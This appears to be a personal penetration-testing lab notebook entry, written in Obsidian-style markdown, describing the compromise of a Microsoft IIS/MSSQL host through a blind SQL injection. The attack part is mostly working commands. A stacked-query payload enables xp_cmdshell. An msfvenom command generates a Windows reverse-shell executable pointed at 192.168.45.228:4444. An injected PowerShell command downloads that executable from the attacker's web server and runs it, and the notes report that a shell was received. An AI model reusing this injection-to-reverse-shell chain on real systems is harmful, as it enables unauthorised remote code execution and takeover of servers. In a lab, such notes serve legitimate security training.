 Found my old notes and can continue, want to learn the newer concepts. Actuall first, lets figure out how I would know the system using this injections.. From the new research I have not found to OS of this box

Well, breezing thru the old notes, just seeing the fact that it is an Microsoft IIS should be enough to google and find something along the lines of enable remote code execution.

Now I see I arrived here by researching how to exploint the blind injection founnd [[SLQ Injection found]]. To enable the xp_command shell needs to be renabled as shown [[#Injection]]


# injection
Enabeling xp_cmdshell
```sql
1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
```

Generate rev shell payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=4444 -f exe > reverse121.exe

```

Starting web server on host
```bash
' EXECUTE xp_cmdshell 'powershell.exe Invoke-WebRequest "http://192.168.45.228:8888/reverse121.exe" -OutFile "C:\Users\Public\Downloads\reverse121.exe";C:\Users\Public\Downloads\reverse121.exe'--
```

Shell recived on to [[121 Priv esc]]